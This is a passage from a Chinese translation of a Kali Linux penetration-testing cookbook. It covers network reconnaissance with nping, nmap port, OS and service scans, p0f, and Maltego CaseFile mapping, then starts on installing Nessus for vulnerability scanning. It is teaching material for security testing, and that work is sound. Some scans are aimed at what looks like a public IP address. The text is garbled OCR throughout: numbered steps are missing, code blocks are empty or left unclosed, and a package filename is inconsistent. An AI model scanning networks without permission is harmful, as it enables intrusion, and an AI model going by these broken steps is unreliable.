

### 信息收集

2. 我们也可以使用 `Nping`（`Nmap` 套件），它可以为我们提供更详细的视图：
```bash
```

3. 我们还可以向指定端口发送一些十六进制数据：
```bash
nping -tcp -p 445 -data AF56A43D 216.27.130.162
```

### 寻找开放端口

在了解受害者网络范围和活跃机器后，我们将进行端口扫描过程，以检索开放的 TCP 和 UDP 端口以及访问点。
### 准备工作

为了完成此配方，必须启动 Apache Web 服务器。
74


第 4 章

## 如何操作...


1. 首先，启动终端窗口并输入以下命令：
```bash
nmap 192.168.56.101
```
75


### 信息收集

```bash
nmap -p 1-1000 192.168.56.101
```

3. 或者指定 `Nmap` 扫描该组织所有 TCP 端口 `22` 的网络：
```bash
nmap -p 22 192.168.56.*
```
76

第 4 章

4. 或者将结果输出到指定的格式：
```bash
nmap -p 22 192.168.10.* -oG /tmp/nmap-targethost-tcp445.txt
```

### 工作原理…

在本次配方中，我们使用 `Nmap` 扫描网络上的目标主机，以确定哪些端口是开放的。
更多信息...

`Nmap` 有一个 GUI 版本称为 `Zenmap`，可以通过在终端窗口中执行 `zenmap` 命令或通过进入 `Applications|Kali Linux|Information Gathering|Network Scanners|zenmap` 来调用。

### 操作系统指纹识别

在信息收集过程的此时，我们现在应该有了一份从目标组织识别出的 IP 地址、活跃机器和开放端口列表。该过程的下一步是确定活跃机器运行的操作系统，以便知道我们正在渗透测试的系统类型。
77



### 准备工作

为了完成此配方的第 2 步，需要一个 `Wireshark` 抓包文件。

## 如何操作...

让我们从终端窗口开始操作系统指纹识别：

1. 使用 `Nmap`，我们带有 `-O` 选项发布以下命令以启用操作系统检测功能：
nmap -O 192.168.56.102
```

2. 使用 `p0f` 分析 `Wireshark` 抓包文件：
```bash
p0f -s /tmp/targethost.pcap -o p0f-result.log -l
p0f - passive os fingerprinting utility, version 2.0.8
(C) M. Zalewski <lcamtuf@dione.cc>, W. Stearns
78

<wstearns@pobox.com>
p0f: listening (SYN) on 'targethost.pcap', 230 sigs (16 generic), rule: 'all'.
[+] End of input file.

### 服务指纹

确定特定端口上运行的服务将确保目标网络渗透测试的成功。它还将消除操作系统指纹识别过程留下的任何疑问。

## 如何操作...


1. 打开终端窗口并发布以下命令：
```bash
nmap -sV 192.168.10.200
```
Starting Nmap 5.61TEST4 ( http://nmap.org ) at 2012-04-27 23:30 CDT
Nmap scan report for test-target.net (216.27.130.162) Host is up (0.00058s latency).
Nmap done: 1 IP address (1 host up) scanned in 0.06 seconds
Interesting ports:
21/open ftp
80/open http
135/open msrpc
139/open netbios
443/open https
445/open microsoft-ds
543/open msrpc
843/open microsoft-ds
1493/open microsoft-ds
3389/open msrpc
79


# 9. 我们可以选择查找 DNS 名称、执行 WHOIS 查询、获取电子邮件地址等，我们也可以选择运行如下截图所示的所有转换（transforms）：

10.我们可以通过对链接的子节点执行相同的操作来获取更多信息，直到获取到我们想要的信息为止。

### 工作原理……


社区版仅允许我们使用 75 个转换作为信息收集的一部分。Maltego 的完整版目前价格为 650 美元。

85


### 信息收集

### 更多……


为了使用多个转换，必须先接受免责声明。

## 绘制网络

利用从之前的教程中获得的信息，我们现在可以创建组织网络的蓝图了。在本章的最后一个教程中，我们将看到如何使用 `Maltego CaseFile` 可视化地编译和组织获得的信息。

`CaseFile` 正如开发者网站所示，它就像是没有转换的 Maltego，但拥有海量功能。大多数功能将在本教程的“如何操作……”部分进行演示。

86

# 第 4 章

### 如何操作……

让我们通过启动 CaseFile 开始教程：

1. 通过 `Applications|Kali Linux|Reporting Tools|Evidence Management|casefile` 启动 CaseFile。
2. 要创建一个新图，点击 `CaseFile` 应用程序菜单中的 `New`：


### 信息收集

3. 就像 Maltego 一样，我们将每个实体从 `componentPalette` 拖放到图文档中。让我们先从拖入 `Domain` 实体并更改 `Domain Name` 属性开始：
4. 要添加注释，将鼠标指针悬停在实体上并双击注释图标：

88

# 第 4 章


89

### 信息收集

6. 要链接实体，只需将线从一个实体拖动到另一个实体：
7. 根据需要自定义链接的属性：

90


8. 重复步骤 5、6 和 7，向图表中添加更多关于组织网络的信息：
9. 最后，我们保存信息图。如果我们觉得有需要，可以在以后打开并编辑该图文档，例如当我们从获取的目标中获得更多信息时的情况下。

### 工作原理……

在本教程中，我们使用 Maltego CaseFile 绘制了网络。`CaseFile` 是一个视觉智能应用，我们用它来确定数百种不同类型信息之间的关系和现实链接。它主要是一个离线情报，意味着这是一个手动过程。我们通过启动 CaseFile 并创建一个新图开始教程。接下来，我们使用已收集或已知的网络知识，并开始向图中添加组件以展示其设置。我们通过保存图表结束教程。

91


### 更多……

我们还可以加密图文档以使其免受公众视线的影响。要加密图表，在保存时，勾选 `Encrypt (AES-128)` 复选框并提供密码。

92
5 # 漏洞评估

在本章中，我们将涵盖：
- 安装、配置并启动 Nessus 
- Nessus - 查找网络漏洞
- Nessus - 查找 Linux 特有的漏洞
- Nessus - 查找 Windows 特有的漏洞
- 安装、配置并启动 OpenVAS
- OpenVAS - 查找本地漏洞
- OpenVAS - 查找网络漏洞
- OpenVAS - 查找 Linux 特有的漏洞
- OpenVAS - 查找 Windows 特有的漏洞

## 简介
对我们的目标进行扫描和识别漏洞通常被大多数渗透测试员和道德黑客认为是最乏的任务之一。然而，它是最重要的任务之一。这应该被视为你的作业阶段。就像在学校一样，作业和测验的设计是为了让你在考试中展示精通程度。

漏洞识别允许你完成作业。你将学习你的目标容易受到哪些漏洞的影响，以便制定更精细的攻击方案。本质上，如果攻击本身是考试，那么漏洞识别就为你提供了一个准备的机会。!


### 漏洞评估

Nessus 和 OpenVAS 都有相似的漏洞集，它们可以在目标主机上进行扫描。这些漏洞包括：
- Linux 漏洞
- 本地安全检查
- 网络服务漏洞

### 安装、配置并启动 Nessus

在本教程中，我们将安装、配置并启动 Nessus。Nessus 依赖于插件形式的检查来定位我们选定的目标。Nessus 提供两种 Feed 版本：Home 和 Professional。

- `Home Feed`：用于非商业用途。
- `Professional Feed`：用于商业用途。它包括无限连接等功能。如果你是顾问并为客户执行测试，那么 Professional Feed 适合你。


### 准备工作

需要满足以下要求：
- 完成此教程需要连接

### 如何操作……

让我们通过打开终端窗口开始安装、配置和启动 Nessus：

2. 在屏幕左侧的 Download Nessus 下选择 Linux，然后（至少在写作时）选择 `Nessus-5.2.1-debian6_amd64.deb`。
3. 将文件下载到本地根目录。

94

# 第 5 章

### 漏洞评估

4. 打开终端窗口。
```
dpkg -i "Nessus-5.2.1-debian6_i86.deb"
```
上述命令的输出如下：
6 Nessus 将安装在 `/opt/nessus` 目录下。
7 安装 安装完成后，可以通过输入以下命令运行 Nessus：
```
/etc/init.d/nessusd start
```
在使用 Nessus 之前，你必须有一个注册码。你可以从下方的“更多……”部分获得有关如何操作此的信息。
8. 执行以下命令启用你的 Nessus 安装：
```
/opt/nessus/bin/nessus-fetch --register XX-XXXX-XXXX-XXXX-XXXX
```
在这一步中，我们还将从 http://plugins.nessus.org 获取最新的插件。
根据你的网络连接，这可能需要一分钟或两分钟。

96

# 第 5 章


9. 现在，在终端中输入以下命令：

```
/opt/nessus/sbin/nessus-adduser
```


11. 输入两次密码。

12. 回答 `Y (Yes)` 以使该用户成为管理员。
这只需要在第一次使用时执行。

13. 完成后，你可以通过输入以下命令来运行 Nessus（如果没有用户账户将无法运行）：

```
/etc/init.d/nessusd start

14. 访问 `https://127.0.0.1:8834` 登录 Nessus。

如果你打算使用 Nessus，请记住要在本地机器已安装的 Kali Linux 上运行，或者从虚拟机中运行。这是因为 Nessus 是根据它所使用的机器来激活激活的。如果你将其安装到 USB 闪盘中，那么每次重启机器时都必须重新激活你的更新源（feed）。

## 工作原理...
在本教程中，我们首先打开终端窗口并通过存储库安装了 Nessus。随后，我们启动了 Nessus 并安装了更新源证书以便使用该程序。

### 更多信息...
为了注册你的 Nessus 版本，你必须拥有一个有效的许可证，该许可证可以通过 `http://www.tenable.com/products/nessus/nessus-homefeed` 获取。此外，Nessus 在浏览器中作为 Flash 运行，因此在第一次启动程序时可能需要为 Firefox 安装 Flash 插件。如果你在使用 Flash 时遇到问题，请访问 `www.get.adobe.com/flashplayer` 获取更多信息。


### 漏洞评估
### Nessus - 寻找本地漏洞

现在我们已经安装并配置了 Nessus，就可以开始对第一组漏洞进行测试了。Nessus 允许我们根据更新源攻击广泛的漏洞，我们将目标漏洞评估列表限制在那些我们寻求从评估中获取的特定类型信息的漏洞上。在本教程中，我们将从寻找本地漏洞开始。这些是针对我们正在使用的系统的特定漏洞。

### 准备工作
要完成本教程，你将测试本地系统（Kali Linux）。

让我们通过打开 Mozilla Firefox 浏览器来开始使用 Nessus 寻找本地漏洞的过程：

1. 访问 `https://127.0.0.1:8834` 登录 Nessus。
2. 进入 `Policies`（策略）。
3. 点击 `New Policy`（新建策略）。

